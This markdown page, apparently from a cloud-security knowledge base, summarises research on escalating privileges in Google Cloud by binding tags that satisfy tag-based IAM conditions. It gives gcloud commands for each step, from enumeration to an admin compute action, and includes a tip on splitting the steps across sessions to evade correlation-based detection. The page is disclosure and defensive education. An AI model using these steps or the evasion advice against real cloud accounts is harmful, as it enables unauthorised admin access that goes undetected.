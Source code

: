 ```yaml
---
author_name: Ariel Kalman
title: Tag Your Way In - GCP Privilege Escalation Using Tags
description: A new privilege escalation technique in Google Cloud that leverages tag bindings to bypass IAM conditions and gain unauthorized access to sensitive resources.
---
```



<div class="grid cards" markdown>

-   :material-account:{ .lg .middle } __Original Research__

    ---

    <aside style="display:flex">
    <p><a href="https://www.mitiga.io/blog/tag-your-way-in-new-privilege-escalation-technique-in-gcp">Tag Your Way In: New Privilege Escalation Technique in GCP</a> by <a href="https://www.linkedin.com/in/ariel-kalman-47314a19b/">Ariel Kalman</a></p>
    <p><img src="/images/researchers/ariel_kalman.jpeg" alt="Ariel Kalman" style="width:44px;height:44px;margin:5px;border-radius:100%;max-width:unset"></img></p>
    </aside>

</div>


GCP IAM Conditions allow fine-grained access control using context like time, resource type, and tags—but those same tags can enable unexpected privilege escalation. **In this post, we show how a user with only viewer and tagUser roles can escalate to full admin access without changing any IAM policy**.

## Background
#### Conditional Access Based on Tags

In GCP, IAM policies control access by assigning roles to members on resources, optionally using conditions based on request time, IP address, or resource tags. Tags are key-value pairs that can be inherited and used in IAM Conditions, such as resource.matchTag('env', 'sandbox'), to enforce fine-grained access control.

For example, this is an IAM policy with a resource tag condition:
```json
{
  "bindings": [
    {
      "condition": {
        "description": "Only allow access if a resource is tagged env=sandbox",
        "expression": "resource.matchTag('env', 'sandbox')",
        "title": "SandboxTagCondition"
      },
      "members": [
        "group:sandbox_users@**************"
      ],
      "role": "roles/compute.admin"
    }
}
```

#### TagBindings and Role-Based Tag Management
Tags are attached to resources using tagBindings, which link a resource to a specific tagValue.


#### Tag Management Roles

In GCP, tag management access is controlled using the following IAM roles:

- [`roles/resourcemanager.tagViewer`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagViewer)
- [`roles/resourcemanager.tagUser`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagUser)
- [`roles/resourcemanager.tagAdmin`](https://cloud.google.com/iam/docs/understanding-roles#resourcemanager.tagAdmin)

!!! Tip
    To evade detection, an attacker could perform the tag binding and the privileged action in separate sessions or with a time gap greater than X minutes, breaking the detectable sequence used in correlation rules


## How to Exploit


### 1. Enumerate IAM Policies  
```shell 
gcloud projects get-iam-policy <PROJECT_ID>
``` 
**Required Role:**  `roles/resourcemanager.projects.getIamPolicy`  
**Impact:**  Discover IAM bindings and tag-based conditions
<figure markdown>
  ![IAM Policy Output Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/iam_enumeration.png){ loading=lazy }
</figure>


### 2. List Available Tags  
```shell 
gcloud resource-manager tags keys list --parent=folders/<FOLDER_ID>
gcloud resource-manager tags values list --parent=tagKeys/<TAG_KEY_ID>
```
**Role:**  `roles/resourcemanager.tagUser`  
**Impact:**  Enumerate tag keys and values.
<figure markdown>
  ![Tags Enumeration Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/privileged_operation.png){ loading=lazy }
</figure>


### 3. Bind Tags to Resource  
```shell
gcloud resource-manager tags bindings create \
  --tag-value=tagValues/<TAG_VALUE_ID> \
  --parent=//cloudresourcemanager.googleapis.com/projects/<PROJECT_ID>
```
**Role:**  `roles/resourcemanager.tagUser`  
**Impact:**  Attach tags to satisfy IAM conditions.
<figure markdown>
  ![tagBinding Creation Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/tag_binding_creation.png){ loading=lazy }
</figure>


### 4. Exploit Conditional Access  
```shell
gcloud compute instances delete-access-config instance-<INSTANCE_NAME> \
  --zone=us-central1-c \
  --access-config-name="External NAT" \
  --network-interface=nic0

```  
**Role:** `roles/compute.admin`  
**Impact:**  Access resources gated by tag-based conditions.
<figure markdown>
  ![Admin Operation Example](../../images/gcp/exploitation/tagbindings_privilege_escalation/tags_enumeration.png){ loading=lazy }
</figure>


!!! Warning
    The granted privileged role depends entirely on the IAM policy. If the policy assigns `roles/compute.admin` to resources with the tag, that's what the attacker gets, but it could just as easily be `roles/compute.viewer` or any other role.


## Impact
This privilege escalation technique can lead to unauthorized access, full admin control over key services, and long-term persistence by exploiting dynamic tag-based IAM conditions. It’s a realistic risk: public Terraform modules frequently assign the tagUser role to non-admins like CI/CD accounts or integration service accounts, as seen in examples from [terraform-example-foundation](https://github.com/terraform-google-modules/terraform-example-foundation/blob/main/0-bootstrap/sa.tf) and [cloud-foundation-fabric](https://github.com/GoogleCloudPlatform/cloud-foundation-fabric/blob/master/fast/stages/0-bootstrap/README.md).

!!! Note
    For a deeper technical walkthrough, check out the [full blog post](https://www.mitiga.io/blog/tag-your-way-in-new-privilege-escalation-technique-in-gcp) or [contact me](https://www.linkedin.com/in/ariel-kalman-47314a19b/) for more information.


